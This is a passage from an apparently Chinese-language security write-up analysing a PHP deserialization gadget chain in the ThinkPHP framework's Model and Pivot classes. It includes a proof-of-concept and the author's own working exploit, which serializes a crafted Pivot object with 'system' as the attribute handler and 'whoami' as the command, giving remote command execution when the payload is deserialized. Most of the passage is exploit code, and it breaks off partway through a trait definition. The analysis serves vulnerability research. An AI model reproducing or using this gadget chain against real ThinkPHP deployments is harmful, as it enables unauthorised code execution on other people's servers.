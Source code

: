 ```

namespace think\model;

use think\Model;

class Pivot extends Model
{
    function __construct($obj)
    {
        parent::__construct($obj);
    }
}

$obj1 = new Pivot(null);
echo base64_encode(serialize(new Pivot($obj1)));
```

这里的poc中并没有看到Conversion这个类,是因为在Model类中的引用已经有Conversion这个类了,当我们实例化他的子类的时候,可以去调用了他引用里面的`__toString`方法

![image-20211103160731808](images/19.png)

Attribute和Conversion这两个类与Model类是通的,所以属性可以全部在Model里面定义

自己写了个exp

```
<?php

namespace think\model {

    use think\Model;

    class Pivot extends Model
    {
    }
    $obj1 = new Pivot('');
    echo base64_encode(serialize(new Pivot($obj1)));
}

namespace think {

    use think\model\concern\Attribute;

    abstract class Model
    {
        private $lazySave;
        private $exists;
        private $data = [];
        private $withAttr = [];
        public function __construct($obj)
        {
            $this->lazySave = true;
            $this->withEvent = false;
            $this->exists = true;
            $this->table = $obj;
            $this->data = ['key' => 'whoami'];
            $this->visible = ["key" => 1];
            $this->withAttr = ['key' => 'system'];
        }
    }
}

namespace think\model\concern {
    trait Attribute
    {
```